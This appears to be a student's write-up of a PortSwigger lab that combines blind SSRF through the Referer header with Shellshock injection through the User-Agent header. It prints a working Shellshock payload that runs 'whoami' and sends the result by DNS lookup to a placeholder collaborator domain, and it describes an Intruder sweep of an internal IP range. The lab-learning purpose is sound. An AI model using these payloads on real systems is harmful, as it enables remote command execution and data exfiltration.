








### Blind SSRF with Shellshock exploitation : EXPERT

---

Since the `referer` header contains the URL that is fetched, this means we will need to find the URL of the internal server and place it in the `reeferer` header.

Since this is a blind vulnerability, we can use the BURPSUITE COLLABORATOR to identify the blind injection points, following the process found in [[Portswigger/SSRF/Lab 6|Lab 6]].

> Capturing a request sent after clicking on a product and viewing it in repeater.



We know that the `referer` header is vulnerable. Therefore, we can insert in it the IP address range of the internal server, and perform a "ping sweep" by observing the collaborator responses to see which server replies.
- We know that the server operates in the range `192.168.0.X:8080`.
- We need to figure out which `X` is it.
- To obtain the responses, we need to find an injection point that correlates both the server IP address, as well as the collaborator domain.

We can first modify the `referer` header by placing this as the server URL:
```
Referer: http://192.168.0.1:8080
```
- Place a `1` instead of the `X` for now, later, we will try the entire range from `0-255`.



> Now, we now from the previous lab that the `referer` header is vulnerable. The next step, is to find a way to insert the shellshock exploit code to extract the name of the OS user from the server in the `referer` header.

This means we need to find another vulnerable injection point, which can be done using the `collaborator everywhere` extension.
 - Download it from the Extensions tab, in the BApp Store, then searching for its name.

> Add the lab URL into scope so that the extension can do its work and find all possible injection points.
- From the Target tab, open the Scope settings options and paste in the lab URL.



What this extension does is that places collaborator payloads in all the possible headers, and each header has a unique collaborator domain.
- It then reports which headers are vulnerable by matching the collaborator domain placed in the header with the observed lookup requests.
- The vulnerability here is which header performs a ping back, or sends a response to the collaborator domain that is being sent.
- If a ping back is witnessed, this means we can communicate with this endpoint.

> Now, refreshing the product page, as we know this is the vulnerable point, we see that there are two new issues found in the Dashboard tab.



This confirms our findings that the `Referer` header is vulnerable, but it also shows us a new injection point, the `User-Agent` header.

> Now that we know the value `referer` header is fetched by the server, we need to inject in the `user-agent` header the shellshock exploit to get the OS username.

```bash
 () { :; }; whoami
```

This code would normally be enough to obtain the username of the OS.
- However, we need to send this data to us somehow.
- This can be done by triggering a DNS lookup of our own collaborator domain.
- We can then insert the `whoami` command as a subdomain so that we can exfiltrate this data.
- The new exploit becomes:

```bash
 () { :; }; /usr/bin/nslookup $(whoami).BURP_COLLAB_DOMAIN
```
- `nslookup` is used to make DNS queries. 
- We added the entire path of the binary which is optional.
- The `BURP_COLLAB_DOMAIN` is our attacker controlled domain that we will observe the requests being made to. Hence, this is our collaborator domain.

> This payload will be placed in the `user-agent` header as we now that it is vulnerable, and the new request will look like this:



Now, we need to send this request to all the possible servers, and observe the responses in the collaborator tab.

> To brute force the server IP address, we use the INTRUDER tab and launch a sniper attack on the value of the final octet of the address.



We then set the payloads to be the numbers from 0-255.



Launching the attack, we can now observe the collaborator tab.



We see that the username is added as a subdomain: `peter-C4W0nT`.

---
